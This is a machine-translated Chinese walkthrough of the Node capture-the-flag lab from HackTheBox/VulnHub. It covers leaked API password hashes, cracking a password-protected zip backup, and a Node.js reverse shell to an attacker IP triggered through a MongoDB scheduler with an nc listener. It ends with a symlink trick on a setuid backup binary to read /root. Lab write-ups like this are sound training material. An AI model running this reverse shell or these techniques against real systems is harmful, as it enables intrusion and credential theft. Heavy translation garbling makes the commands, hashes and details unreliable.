# 节点 HTB/Vulnhum 虚拟机

> 原文：<https://infosecwriteups.com/node-htb-vulnhum-vm-358be0bf616b?source=collection_archive---------1----------------------->

我最初完成这个虚拟机时，它托管在 [HTB](https://www.hackthebox.eu) 。这真的很有趣，我从中学到了很多。当我在 vulnhub 上看到它时，我决定再试一次，看看我是否能记住如何找到它的根，以及我是否能找到任何新的方法。因此，这是我的演练，我希望你喜欢它，也许会学到一些东西。

所以让我们直入主题，

因此，在快速的 nmap 扫描后，我们可以看到它只打开了几个端口

**root @ Kali:~/Desktop/HTB/10 . 10 . 10 . 58 node # nmap 10 . 10 . 10 . 58**

***启动 Nmap 7.60(***[***https://nmap.org***](https://nmap.org)***)2017–10–15 09:06 BST
10 . 10 . 10 . 58
主机已启动(0.028 秒延迟)。
未显示:998 过滤端口
端口状态服务
22/tcp 开放 ssh
3000/tcp 开放 PPP***

***Nmap 完成:19.86 秒扫描 1 个 IP 地址(1 台主机启动)***

我以前从未见过 tcp 3000 端口打开。让我们快速搜索一下，看看是什么。



嗯，所以不确定这是否有帮助，但我会把它保存到我的笔记中，然后继续。让我们看看能否在浏览器中看到它！



太棒了，看起来 3000 端口上有一个网站，快速查看一下源代码，没有什么真正跳出来的，让我们对它运行 dirb 扫描，看看我们是否能发现什么。虽然这是在后台工作，我们可以尝试登录并捕捉打嗝的请求。



所以输入 admin:admin 显然不起作用，哈哈，但是绝对值得一试，当我在这里的时候，让我们试一个快速的 sqli。但也不走运。所以似乎没有什么对我有用。让我们再看一看这一页的源代码，看看我们是否能找出前进的一步！！



我们可以看到它有一些。js 脚本正在运行。让我们看看每个人都在做什么。



管理员. js



app.js



home.js



login.js



简介. js

通过检查目录和文件等，我们得到了很多错误，但当我去***/API/users*/latest**时，我想我们偶然发现了一些可以用来继续前进的东西。

***[{ " _ id ":" 59a 7365 b 98 aa 325 cc 03 ee 51 c "，" username ":" myp 14 EAD m1 nacc count "，" password ":" dffc 504 aa 55359 b 9265 CBE B1 e 4032 Fe 600 b 64475 AE 3 FD 29 c 07d 23223334 d0af "，" is_admin":true}，***

***{ " _ id ":" 59a 7368398 aa 325 cc 03 ee 51d "，"用户名":" tom "，"密码":" f0e 2e 750791171 b 0391 b 682 EC 35835 BD 6 a5 C3 f 7 c8 D1 d 0191451 EC 77 B4 d 75 f 240 "，" is_admin":false}，***

***{ " _ id ":" 59a 7368 e 98 aa 325 cc 03 ee 51 e "，"用户名":" mark "，"密码":" de 5a 1 ADF 4 fed CCE 1533915 EDC 60177547 f 1057 b 61 b 7119 FD 130 E1 f 7428705 f 73 "，" is_admin":false}，***

***{ " _ id ":" 59aa 9781 ced 6 f1 d 1490 FCE 9 "，"用户名":"光栅化"，"密码":" 5065 db 2 df 0d 4 ee 53562 c 650 c 29 bacf 55 b 97 e 231 e 3 Fe 88570 ABC 9 edd 8 b 78 AC 2 f 0 "，" is_admin":false}]***

我们已经找到了该网站的一些帐户详细信息，看着它们，我们可以看到该网站有一个管理员。让我们尝试登录，如果我们可以使用信用

通过散列标识符运行密码散列，它返回其阿沙-256 散列

它解密为

**曼斯特**

用这个登录我们会得到



所以我们可以下载备份，让我们用 cat 看看

*(备份的输出已经剪得很大了省得你没完没了的滚动)*
***l 2 jvb 3 rzdhjhcc 9 jc3 mvvvqfaaph 6 klzdxglaaeaaaaaaaaaaaaaaaaaaauesbah 4 dfaajaagaqaeis 1h 8 f 0 actaaaaacnaaacnkbad 0 agaaaaaaaaaaaaaaaaaaaaaaaalsbbgbcjahzhci 93d vbxlwbgfjzs 9 zdg 0 awmvdmvuzg 9 yl 2 jvb 3 rzdhjhcc 9 JC 3***

文件中只有大量的文本，但是结尾的那个小小的 **=** 符号暗示它是 base64 编码的，所以让我们解码它，看看它说了什么。

***root @ Kali:~/Downloads # base64—decode my place . backup>my decode . txt***

***PK @ KX | F \u Lp = \u# var/www/my place/static/vendor/bootstrap/CSS/bootstrap . min . cssut \u Yux
PK @ K \u 6 \u RZ:9 \u！d # var/www/my place/static/vendor/bootstrap/CSS/bootstrap . cssut \u yux
PK
@ " k \u ax \u var/www/my place/static/vendor/bootstrap/fonts/ut \u\u yux
PK @"kxdz�ln�nn����#var/www/myplace/static/vendor/bootstrap/fonts/glyphicons-halflings-regular.eotut���yux
PK @"k|��ɻh n \u＄var/www/my place/static/vendor/bootstrap/fonts/fontsn % var/www/my place/static/vendor/bootstrap/js/bootstrap . min . jsut***

***root @ Kali:~/Downloads # file my decoded . txt
my decoded . txt:Zip 存档数据，至少 1.0 版才能解压***

太棒了，所以这是一个 zip 文件，我们可以修改扩展名，使其成为 zip 文件，然后尝试提取它！！



哈哈，没那么容易吧！！所以让我们用 fcrackzip 攻击它，看看我们是否能强行进入。

***root @ Kali:/usr/share/word lists/sec lists/rock you # fcrackzip myplacedecoded . zip-D-p rock you . txt
找到可能的 pw:magic word()***

那很容易，一点也不需要花很长时间！！现在回到提取它。



太棒了，所以让我们继续查看细节，并尝试找到前进的方向。在目录里面是我们之前看到的所有 javascript 文件。在回顾了其中的一些之后，我发现了 app.js



app.js 文件中是 mark 的登录详细信息

**标记:5AYRft73VtFpc84k**

让 ssh 进来，看看它们是否工作。

***root @ Kali:# ssh mark @ 10 . 10 . 10 . 58
mark @ 10 . 10 . 10 . 58 的密码:***

***上次登录:2017 年 9 月 27 日 02:33:14 从 10 . 10 . 14 . 3
mark @ node:~ $ ls
mark @ node:/home/frank $ locate user . txt
/home/Tom/user . txt
mark @ node:/home/frank $ cat/home/Tom/user . txt
cat:/home/Tom/user . txt:权限被拒绝***

好吧，所以我需要改变用户从马克到弗兰克获得任何进展。

让我们开始枚举盒子。最好的方法是把我们的 LinEnum 脚本放到机器上，从 **/tmp** 目录运行它，因为我们通常在那里有写权限。

LinEnum 扫描的输出显示，机器上有 3 个用户**弗兰克、马克**和**汤姆**

继续查看 LinEnum 输出，我们可以看到 app.js 进程正在运行一个用户 Tom

**汤姆 1236 0.1 5.0 1074104 38092？SSL 11:11 0:01/usr/bin/node/var/scheduler/app . js**

我们打开 app.js，找到了之前找到的相同凭据。这表明它的备份是使用我们之前发现的相同脚本创建的。仔细查看文件，我们还发现这个脚本调用了 **/usr/local/bin** 目录中的一个名为 **backup** 的文件，并使用一个键来创建备份。

现在我们知道这个盒子上有 MongoDB，我们可以用它来进一步利用它。*(那一跳花了我很长时间，我被困了很长时间，在这个阶段我应该休息一下，我可能不会花这么长时间来理解 Mongo 的部分)。*

我可以创建并上传一个. js 反向 shell，并使用 Mongo 中的 Sheduler 来触发它。

反向外壳看起来像这样:

> **(function(){
> var net = require(" net ")，
> cp = require("child_process ")，
> sh = CP . spawn("/bin/sh " ,[])；
> var 客户端=新网。socket()；
> client.connect(2007，“10.10.14.16”，function(){
> client . pipe(sh . stdin)；
> sh.stdout.pipe(客户端)；
> sh.stderr.pipe(客户端)；
> })；
> return/a/；//防止 Node.js 应用崩溃
> })()；**

我们使用 wget 和 python SimpleHTTP 把它放到盒子上。我们必须更改权限，让它在这台机器上运行。

**chmod +x**

然后我们可以启动 MongoDB，告诉它用调度程序运行什么。

***mongo
使用调度器
db.auth("mark "，" 5a yrft 73 vtfpc 84k ")
1***

切换到一个新的终端窗口，我们必须设置一个 netcat 监听器，当它被触发时捕捉我们的反向 shell。

***nc 在新端子-lnvp 2007***

切换回我们的另一个运行 mongo 的终端窗口，我们可以发出以下 cmd:

***db . tasks . insertone({ cmd:"/usr/bin/nodejs/tmp/shell . js " })；***

这将使你进入 **Tom** *(第一步 priv esc 完成)*我们可以转到 **/home/tom** dir 并捕获 user.txt 标志。

我们现在应该使用 Toms 用户权限重新开始枚举。

启动我们可靠的老 **LinEnum.sh** 并查看输出，我们可以看到:

***-rwsr-xr—1 root admin 16484 Sep 3 11:30/usr/local/bin/backup***

导航到这个文件，在谷歌搜索了一下后，我发现它是 backup/dirs，但我不能使用它或调用 root 或其他功能，否则它会反复骚扰我。

在进行了大量的枚举和谷歌搜索之后，我找到了一篇文章，建议从一个我们有写权限的目录( **/tmp** )创建一个符号链接，我们也许可以绕过这个限制。

所以我在 tmp 文件夹中创建了一个指向/root 的符号链接

**mkdir -p /tmp/hack**

**Tom @ node:/tmp $ ln-s/root/tmp/hack/hack**

***Tom @ node:/tmp $ file/tmp/hack/hack
/tmp/hack/hack:到/root* 的符号链接**

我们必须再次访问网页并下载新修改的备份文件。一旦我们有了它，我们就可以像以前一样使用密码 **magicword** 进行解码

***tom@node:/tmp$。/backup-q 45 fac 180 e 9 eee 72 f 4 FD 2d 9386 ea 7033 e 52 b 7 c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack***

***<45 fac 180 e 9 eee 72 f 4 FD 2d 9386 ea 7033 e 52 b 7 c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack
bash:。/backup:没有这样的文件或目录
Tom @ node:/tmp $/usr/local/bin/backup-q 45 fac 180 e 9 eee 72 f 4d 9386 ea 7033 e 52 b 7c 740 AFC 3d 98 a8d 0230167104d 474/tmp/hack
<72 f 4d 9386 ea 7033 e 52 b 7c 740 AFC 3d 98 a8d 0230160***

在 base 64 解码之后，我们得到了一个 root /dir 的副本，其中包含了根标志，我们可以处理最后一个标志。

**1722 e 99 ca 5f 464 b 362556 a 62 BD 5e 6 be 0**

游戏结束了。哇，那真的很难，像往常一样，最近我从这台虚拟机中学到了很多。

非常感谢[@ iam rasting](https://twitter.com/@iamrastating)创建了这么棒的虚拟机，也感谢 Vulnhub.com 托管了这么多优秀的虚拟机。